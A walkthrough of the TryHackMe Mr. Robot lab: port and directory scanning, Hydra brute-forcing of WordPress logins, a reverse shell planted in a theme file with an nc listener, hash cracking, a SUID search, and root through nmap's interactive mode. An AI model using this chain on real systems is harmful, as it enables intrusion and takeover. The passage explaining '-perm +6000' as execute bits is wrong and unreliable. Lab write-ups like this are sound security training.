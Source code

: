 # TRYHACKME – Mr. Robot (CTF)

![MrRobot.png](MrRobot.png)

Use nmap to scan target ports

`nmap -T4 10.10.210.21`

![2024-10-30 10_25_08-TRYHACKME - Mr Robot (CTF).docx — Mozilla Firefox.png](2024-10-30_10_25_08-TRYHACKME_-_Mr_Robot_(CTF).docx__Mozilla_Firefox.png)

Port:		Services:

443		https (Hypertext Transfer Protocol Secure)

80		http (Hypertext Transfer Protocol)

After that, we introduce the IP of the machine using the http protocol in our browser, we discover that there is a web page here 

![nmap-scan1.png](img/nmap-scan1.png)

Using gobuster tool to discover the directories that exists 

`gobuster dir -u [http://10.10.158.203](http://10.10.158.203) -w /usr/share/wordlist/dirbuster/directory-list-lowercase-2.3-medium.txt`

![webpage2.png](img/webpage2.png)

![gobuster3.png](img/gobuster3.png)

Navigate to robots.txt file 

![gobuster-result4.png](img/gobuster-result4.png)

Navigate to “key-1-of-3.txt”

![robots-file5.png](img/robots-file5.png)

Go to "fsocity.dic" and download it 

filter the content with this command

`sort -d fsocity.dic |  uniq -d > new_dic.txt`

![first-key6.png](img/first-key6.png)

Now with the Hydra tool we can bruteforce the user (wordpress username disclosure), but first we need to know how the information is being sent 

To do this we need to use the tool BurpSuite 

![sort-dictionary7.png](img/sort-dictionary7.png)

After enabling “Intercept” option, we can try login in the site to intercept the request 

![burpsuite-interception8.png](img/burpsuite-interception8.png)

![wordpress-login-try9.png](img/wordpress-login-try9.png)

`hydra -L /home/kali/Downloads/nfsocity.txt -p admin 10.10.160.233 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30`

- L -> specify the wordlist/dictionary
- p -> specify the password to use

http-post-form -> to websites that use POST methos in their forms

- t 30 -> specifies the number of tasks (or threads) to use for the attack

![burpsuit-result10.png](img/burpsuit-result10.png)

Now we know that exists three users, but we need to discover their passwords too 

`hydra -l Elliot -P /home/kali/Downloads/fsocity.bk 10.10.104.220 http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username” -t 30`

![hydra-bruteforce11.png](img/hydra-bruteforce11.png)

We have the username and the password, we just need to log in to the page 

![hydra-result12.png](img/hydra-result12.png)

![wordpress-login13.png](img/wordpress-login13.png)

Now that we have access to the page with an account that have administrator privileges, we need to explore it to discover any possible vulnerability 

![dashboard14.png](img/dashboard14.png)

We find this page that we can upload .php files to edit the page themes, but we can upload malicious content to reverse shell it

To generate the payload we can access the [https://www.revshells.com/](https://www.revshells.com/) page to do it

![edit-themes-page15.png](img/edit-themes-page15.png)

Fill the IP field with the target machine and choose a port to connect through

We just need to copy and paste the content in the header.php file on the page

![generate-reverse-shell-payload16.png](img/generate-reverse-shell-payload16.png)

To execute the content in this file we need to reload the page, but first we need to put our pc to listen mod to wait for the connection 

`nc -lvnp 9001`

![upload-reverse-shell17.png](img/upload-reverse-shell17.png)

Now that the pc is listening, we can reload the page to execute the content 

![listen-connection18.png](img/listen-connection18.png)

As we can see, the code was executed successfully and now we have access to the victim 

![reload-webpage19.png](img/reload-webpage19.png)

Run a pseudo terminal with python to escaping from the restricted shell 

`python3 -c 'import pty; pty.spawn("/bin/bash")'` 

![established-connection20.png](img/established-connection20.png)

Going to the directory “/home/robot” we can see that exists two files, but the first one we don’t have permissions to read  

![python-pseudo-terminal21.png](img/python-pseudo-terminal21.png)

But we can see the content of the second file 

![mv-root-dir22.png](img/mv-root-dir22.png)

Now we pick the hash and go to [https://crackstation.net/](https://crackstation.net/) to see if this hash has already been cracked 

![cat-passwod-md5-file23.png](img/cat-passwod-md5-file23.png)

As we can see, this password hash has already been cracked

Now that we know the robot password, we can change to this user

![crackstation24.png](img/crackstation24.png)

And now we can see the content of the first file that have the second flag for this challenge  

![robot-login25.png](img/robot-login25.png)

Now the first and most common step that we need to do next is privilege escalation and to do it, the most common first command is to discover what binary files/applications we can execute with the privileges that we already have

And the command is...

`find / -perm +6000 2>/dev/null | grep ‘/bin/’`

- “find” - is a command that searches for files based on various criteria.
- “/” - is the root directory, which means the search will start from the root of the file system.
- “-perm +6000” - specifies that we're looking for files with permissions that include the execute bit set for the owner, group, or others (i.e., +x permissions). The +6000 is a symbolic representation of the permissions, where:

6 represents the execute bit set for the owner (4+2=6)

0 represents no permissions for the group

0 represents no permissions for others

In other words, we're searching for files that have execute permissions for anyone (owner, group, or others).

**2>/dev/null**

- “2>” - redirects the standard error stream (file descriptor 2) to a file or device.
- “/dev/null” - is a special file that discards any input sent to it, effectively suppressing error messages.

By redirecting the standard error stream to /dev/null, we're ignoring any error messages that might occur during the search process.

**| grep '/bin/'**

- “'/bin/'” - is the pattern we're searching for, which is the string /bin/. This is likely used to filter the results to only show files that are located in the /bin directory.

Now we need to analyze the output and try to find some unusual programs 

![second-key26.png](img/second-key26.png)

The binary file that stands out most is the nmap file 

Now we can search ways to do privilege escalation through nmap and to do this, we can go to **[https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)**  

Doing these two commands here, we can verify that we are in root

**`nmap --interactive`**

**`!sh`**

![unusual-programs27.png](img/unusual-programs27.png)

Now we explore more to find the third flag

Going to the root directory we find the last flag for this challenge

![nmap-privilege-command28.png](img/nmap-privilege-command28.png)